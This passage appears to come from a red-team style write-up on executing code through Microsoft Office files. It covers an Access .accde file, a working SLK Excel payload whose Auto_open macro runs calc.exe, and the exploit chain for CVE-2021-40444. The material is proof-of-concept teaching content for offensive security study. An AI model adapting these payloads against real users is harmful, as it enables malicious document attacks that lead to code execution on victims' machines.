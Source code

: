 Save it as `.accde` executable:
![image](https://user-images.githubusercontent.com/56353946/203398449-bc5f95d8-fbc6-4615-b628-805ad81c797a.png)

Executing our .accde file will pop-up with Microsoft Access Security Notice warning about the security concern. Just click Open:
![image](https://user-images.githubusercontent.com/56353946/203398601-73581bcd-64d0-4f1a-9632-4b137fd982be.png)

Code executed:

![image](https://user-images.githubusercontent.com/56353946/203398641-5fb239b4-b87e-4c90-bba3-0ae5ca77144b.png)

As you can see, we can't view our Module in the .accde executable:
![image](https://user-images.githubusercontent.com/56353946/203398765-730707fd-85c5-4430-a2d7-2b2c8d1845e7.png)

# SLK Excel
This study is based on [The MS Office Magic Show Stan Hegt Pieter Ceelen](https://www.youtube.com/watch?v=xY2DIRfqNvA) on SLK part. Do check out the video, it's awesome.

First, let's create the `.slk` file using text editor, put the payload below and save it as `filename.slk`:
```
ID;P
O;E
NN;NAuto_open;ER1C1;KOut Flank;F
C;X1;Y1;K0;EEXEC("calc.exe")
C;X1;Y2;K0;EHALT()
E
```

You can learn what are the meanings of every lines in the above code from the video by Stan I mentioned.

Upon opening the file, we need to click "Enable Content" button:
![image](https://user-images.githubusercontent.com/56353946/203399275-c72c8636-53ed-4523-98ac-4b77eee07712.png)

Then, code will executed:

![image](https://user-images.githubusercontent.com/56353946/203399369-371d350a-1d6a-488f-a365-9b5a491fb20f.png)

# CVE-2021-40444

Exploit chain:
1. Docx opened
2. Relationship stored in document.xml.rels points to malicious html
3. IE preview is launched to open the HTML link
4. JScript within the HTML contains an object pointing to a CAB file, and an iframe pointing to an INF file, prefixed with the ".cpl:" directive
5. The cab file is opened, the INF file stored in the %TEMP%\Low directory
6. Due to a Path traversal (ZipSlip) vulnerability in the CAB, it's possible to store the INF in %TEMP%
7. Then, the INF file is opened with the ".cpl:" directive, causing the side-loading of the INF file via rundll32 (if this is a DLL)
